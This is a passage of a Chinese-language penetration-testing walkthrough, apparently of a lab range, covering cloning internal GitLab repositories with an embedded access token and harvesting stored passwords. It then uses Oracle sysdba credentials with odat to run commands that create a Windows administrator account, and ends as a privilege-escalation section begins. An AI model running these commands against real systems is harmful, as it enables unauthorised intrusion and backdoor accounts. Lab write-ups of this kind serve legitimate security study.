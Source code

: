 [![](assets/1706233449-1661a75ea63c9d0c456246360d7ec360.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143511-b940e674-ba82-1.png)

```bash
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/internal-secret.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xradmin.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/awenode.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xrwiki.git 
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/gitlab-instance-23352f48/Monitoring.git
```

接下来将内容拖下来

[![](assets/1706233449-52d6c3ff74cd7b51b58d5f20921f7f3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143518-bd5b7fda-ba82-1.png)

发现一个存储大量用户名和密码的，可能待会需要爆破

[![](assets/1706233449-75052494c969e317a33e33599d8306c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143524-c1114092-ba82-1.png)

在`yml`文件中发现`Oracle`数据库账密

[![](assets/1706233449-89c9a29f390ee03073b316dc63544a9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143532-c5edc662-ba82-1.png)

### Oracle 连接

尝试使用 mdut 连接

[![](assets/1706233449-a72ee5d69a8cd36b63f3b964fbb184fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143540-ca7991b6-ba82-1.png)

但连接过后无法使用 (会报错)，试了试 Navicat 也长时间无响应。只能换其他工具了，使用`odat`进行连接，`odat`支持执行命令，我们这里直接添加用户

```bash
proxychains odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net user qwq Qq123456. /add'
proxychains odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'net localgroup Administrators qwq /add'
```

[![](assets/1706233449-592c7e705f628776904a9119cf36ed99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143550-d078b9d4-ba82-1.png)

RDP 连接

[![](assets/1706233449-ba23e2116d329378a26ddf22f274d219.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143556-d4732790-ba82-1.png)

## 攻击域成员二 (SeRestorePrivilege 提权)

我们刚刚获取的大量用户名密码还没用，将数据提取出来
